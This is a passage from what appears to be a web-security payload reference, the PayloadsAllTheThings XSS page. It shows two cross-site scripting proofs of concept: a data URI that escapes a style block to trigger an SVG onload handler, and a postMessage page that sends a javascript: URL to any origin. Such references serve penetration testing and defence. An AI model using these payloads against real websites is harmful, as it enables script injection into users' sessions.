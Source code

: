```html
<!DOCTYPE html>
<html>
<head>
<style>
div  {
    background-image: url("data:image/jpg;base64,<\/style><svg/onload=alert(document.domain)>");
    background-color: #cccccc;
}
</style>
</head>
  <body>
    <div>lol</div>
  </body>
</html>
```

## XSS in PostMessage

[](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md#xss-in-postmessage)

> If the target origin is asterisk * the message can be sent to any domain has reference to the child page.

```html
<html>
<body>
    <input type=button value="Click Me" id="btn">
</body>

<script>
document.getElementById('btn').onclick = function(e){
    window.poc = window.open('http://www.redacted.com/#login');
    setTimeout(function(){
        window.poc.postMessage(
            {
                "sender": "accounts",
                "url": "javascript:confirm('XSS')",
            },
            '*'
        );
    }, 2000);
}
</script>
</html>
```

## Blind XSS

[](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md#blind-xss)
